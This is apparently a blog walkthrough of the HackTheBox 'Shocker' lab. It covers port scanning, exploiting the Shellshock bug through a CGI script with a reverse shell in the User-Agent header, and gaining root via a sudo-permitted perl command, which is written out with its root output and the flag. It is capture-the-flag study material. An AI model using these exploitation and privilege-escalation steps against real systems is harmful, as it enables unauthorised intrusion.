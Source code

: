```yaml
---
layout: post
title: HackTheBox - Shocker
date: 2021-08-31 13:32:00 +0100
description: Shocker” is a surprisingly simple Linux box that requires proper enumeration to discover its vulnerability. Further privilege escalation is necessary to achieve root-level access
tags: [HackTheBox]
image: /assets/img/htb/machines/linux/easy/shocker/shocker.png
---
```


## Foothold

### `nmap` scan

{% highlight bash %}
$  nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Shocker-full-port-scan.txt 10.10.10.56
Nmap scan report for 10.10.10.56
Host is up (0.099s latency).
Not shown: 65532 closed ports
PORT      STATE    SERVICE VERSION
80/tcp    open     http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp  open     ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
53649/tcp filtered unknown
{% endhighlight %}

### Apache/2.4.18 (port 80) 

![dont-bug-me](/assets/img/htb/machines/linux/easy/shocker/dont-bug-me.png)

![dirb](/assets/img/htb/machines/linux/easy/shocker/dirb.png)

Seeing that there is a `/cgi-bin directory`, the webserver is probably vulnerable to Shellstock bash RCE.

> **Shellshock bash remote code execution vulnerability**: affects web servers utilizing **CGI** (**C**ommon **G**ateway **I**nterface) &rarr;  a system for generating dynamic web content. Directories such as `/cgi-sys`, `/cgi-mod`, `/cgi-bin` can be found.

Adding `-X .sh` to `dirb`, we found a [user.sh](http://10.10.10.56/cgi-bin/user.sh) file:

![user-sh](/assets/img/htb/machines/linux/easy/shocker/user-sh.png)

![user-sh-content](/assets/img/htb/machines/linux/easy/shocker/user-sh-content.png)


We can have a shell via `metasploit`:

![shellshock](/assets/img/htb/machines/linux/easy/shocker/shellshock.png)

![meterpreter](/assets/img/htb/machines/linux/easy/shocker/meterpreter.png)

However, since I do this box to get ready for **OSCP**, I want to exploit this vuln manually. Via `curl` or from `burp`, I replace `User-agent`'s content by a **reverse shell** payload:

![burp-1](/assets/img/htb/machines/linux/easy/shocker/burp-1.png)

First we've got the following error: `/bin/bash: bash: Nu such file or directory`.

So I replace `bash` by `/bin/bash` and it worked:

![burp-2](/assets/img/htb/machines/linux/easy/shocker/burp-2.png)

## User (shelly)

Flag:

![user-flag](/assets/img/htb/machines/linux/easy/shocker/user-flag.png)

We can run `perl` with sudo:

![sudo -l](/assets/img/htb/machines/linux/easy/shocker/sudo-l.png)

Let's check [GTFObins](https://gtfobins.github.io/gtfobins/perl/) privesc:

![gtfoperl](/assets/img/htb/machines/linux/easy/shocker/gtfoperl.png)

## Root

{% highlight bash %}
shelly@Shocker:/home/shelly$ sudo /usr/bin/perl -e 'exec "/bin/sh";'
sudo /usr/bin/perl -e 'exec "/bin/sh";'
id
uid=0(root) gid=0(root) groups=0(root)
cd /root
cat root.txt 
9be1ed1fbbe0c3319f9cc05dbcdb7941
{% endhighlight %}

___

## Useful links

- [CVE-2014-6271](https://nvd.nist.gov/vuln/detail/CVE-2014-6271#vulnCurrentDescriptionTitle)
- [Exploit Shellshock on a Web Server Using Metasploit](https://null-byte.wonderhowto.com/how-to/exploit-shellshock-web-server-using-metasploit-0186084/)
- [GTFObins](https://gtfobins.github.io/gtfobins/perl/)
